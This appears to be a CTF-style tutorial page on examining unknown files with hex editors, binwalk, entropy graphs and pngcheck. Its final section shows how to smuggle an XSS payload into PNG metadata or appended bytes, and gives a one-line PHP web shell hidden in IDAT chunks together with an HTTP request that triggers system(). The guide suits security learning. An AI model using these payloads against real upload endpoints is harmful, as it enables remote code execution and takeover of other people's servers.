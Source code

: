 ```yaml
---
description: What to do with a file you don't understand
---
```


# File Formats

## Understanding common file formats

If you want to understand how a file format works, you should look at documentation online about it. Often these formats are not ASCII readable so you'll want to use a hex editor, such as `xxd`, `hexedit` or [hexyl](https://github.com/sharkdp/hexyl).&#x20;

A big collection of file formats made by Ange Albertini is the following (just scroll through until you find your format):

{% embed url="https://github.com/corkami/pics/blob/master/binary/README.md" %}
A big collection of drawings of file formats to understand them quickly
{% endembed %}

## Binwalk

Sometimes when data tries to be hidden inside another file, it is just pasted right into the host file. Meaning that the bytes of the secret file are just somewhere in the other file. Using [binwalk](https://github.com/ReFirmLabs/binwalk) you can check for known file signatures in a file to see if it embeds something. \
Using the following command you can also recursively extract all of these into a `.extracted` folder:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ binwalk -eM file.bin
</strong>DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             TRX firmware header, little endian, image size: 37883904 bytes, CRC32: 0x95C5DF32, flags: 0x1, version: 1, header size: 28 bytes, loader offset: 0x1C, linux kernel offset: 0x0, rootfs offset: 0x0
28            0x1C            uImage header, header size: 64 bytes, header CRC: 0x780C2742, created: 2018-10-10 02:12:20, image size: 2150281 bytes, Data Address: 0x8000, Entry Point: 0x8000, data CRC: 0xA097CFEA, OS: Linux, CPU: ARM, image type: OS Kernel Image, compression type: none, image name: "DD-WRT"
92            0x5C            Linux kernel ARM boot executable zImage (little-endian)
2460          0x99C           device tree image (dtb)
23432         0x5B88          xz compressed data
23776         0x5CE0          xz compressed data
2117484       0x204F6C        device tree image (dtb)
3145756       0x30001C        UBI erase count header, version: 1, EC: 0x0, VID header offset: 0x800, data offset: 0x1000

<strong>$ binwalk --dd='.*' file.bin  # Another way to extract all file signatures
</strong></code></pre>

{% hint style="warning" %}
A common false positive with PNGs is `Zlib compressed data`. This is because PNG uses Zlib for compression in its own file format, so it is recognized by binwalk. But very often this compressed data just covers the entire file
{% endhint %}

You can also use binwalk to understand an unknown file better, by looking at the **entropy** for example. Entropy is how random a certain sequence of bytes is. Simple ASCII text is pretty predictable and stays within about the same range, so the entropy would be low. But for completely random/encrypted bytes the entropy should be really high, close to 1. You can get a graph of the entropy of the file using the `-E` flag:

```shell-session
$ binwalk -E file.bin
```

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption><p>An example of a firmware image showing various amounts of entropy (<a href="https://allabouttesting.org/short-tutorial-firmware-analysis-tool-binwalk/">source</a>)</p></figcaption></figure>

This can give a good idea about what parts of a file you could look at.&#x20;

## PNG

Image files like PNG can have a lot of hidden info. It's a relatively complex file format with a lot of room for secrets.&#x20;

A quick check you can do to see if it is a completely valid PNG file is using [pngcheck](http://www.libpng.org/pub/png/apps/pngcheck.html):

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ pngcheck -h
</strong>Test PNG, JNG or MNG image files for corruption, and print size/type info.

Usage:  pngcheck [-7cfpqtv] file.{png|jng|mng} [file2.{png|jng|mng} [...]]
   or:  ... | pngcheck [-7cfpqstvx]
   or:  pngcheck [-7cfpqstvx] file-containing-PNGs...

Options:
   -7  print contents of tEXt chunks, escape chars >=128 (for 7-bit terminals)
   -c  colorize output (for ANSI terminals)
   -f  force continuation even after major errors
   -p  print contents of PLTE, tRNS, hIST, sPLT and PPLT (can be used with -q)
   -q  test quietly (output only errors)
   -s  search for PNGs within another file
   -t  print contents of tEXt chunks (can be used with -q)
   -v  test verbosely (print most chunk data)
   -x  search for PNGs within another file and extract them when found

<strong>$ pngcheck image.png
</strong>OK: image.png (1920x1080, 32-bit RGB+alpha, non-interlaced, 96.6%).
</code></pre>

PNG files consist of **chunks** of bytes that tell something about the image. The most common one is `IDAT` which contains the pixel data of the image. An image always ends with `IEND` and 4 checksum bytes (every chunk has the checksum).&#x20;

You might see custom chunks being used to embed data, or data appended to the end, after `IEND`.&#x20;

### Embed Raw Data

You might find some applications where you are allowed to upload files and find that you can either give them a `.php` extension to create a web shell or make the `Content-Type: text/html` to render tags inside the raw bytes for [cross-site-scripting-xss.md](../web/cross-site-scripting-xss.md "mention"). In either case, this application might validate or even transform your image in a way that does not preserve all the original bytes, breaking your payload.&#x20;

While you might be able to include **metadata** with tools like `exiftool`, these might be stripped by the server upon saving your file:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ exiftool -Comment='&#x3C;svg/onload=alert()>' example.png
</strong>    1 image files updated
<strong>$ hd example.png
</strong>00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
...
00000080  e0 b6 b6 f4 d1 0d 53 22  0d 14 00 00 00 1c 74 45  |......S"......tE|
<strong>00000090  58 74 43 6f 6d 6d 65 6e  74 00 3c 73 76 67 2f 6f  |XtComment.&#x3C;svg/o|
</strong><strong>000000a0  6e 6c 6f 61 64 3d 61 6c  65 72 74 28 29 3e ad 30  |nload=alert()>.0|
</strong>000000b0  14 57 00 00 08 7d 49 44  41 54 78 5e ec ce 31 0d  |.W...}IDATx^..1.|
</code></pre>

Another trick is simply appending data to the end of the file. This would not pass as a valid PNG anymore, but could survive on the server:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ echo '&#x3C;svg/onload=alert()>' >> example.png
</strong>
<strong>$ hd example.png
</strong>...
000009d0  5a b3 07 54 ac 7b 51 fb  78 a7 ea 00 00 00 00 49  |Z..T.{Q.x......I|
<strong>000009e0  45 4e 44 ae 42 60 82 3c  73 76 67 2f 6f 6e 6c 6f  |END.B`.&#x3C;svg/onlo|
</strong><strong>000009f0  61 64 3d 61 6c 65 72 74  28 29 3e 0a              |ad=alert()>.|
</strong>000009fc
</code></pre>

Lastly, there is a technique more resistant to transformation by using the **IDAT chunks**. These normally include compressed DEFLATE data representing the pixels themselves, but this process can be reversed to obtain a string of pixels that compress into a payload like:

```php
<?=$_GET[0]($_POST[1]);?>
```

If the payload above is executed, you can provide a function you want to call like `system()` as the query parameter `0`, and an argument you want to give the function in a `1` body parameter.&#x20;

<pre class="language-http"><code class="lang-http"><strong>POST /shell.php?0=system HTTP/1.1
</strong>...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

<strong>1=id
</strong></code></pre>

The process of creating these and a few example payloads are described in the following post, which also shows an XSS payload with the same idea:

{% embed url="https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/" %}
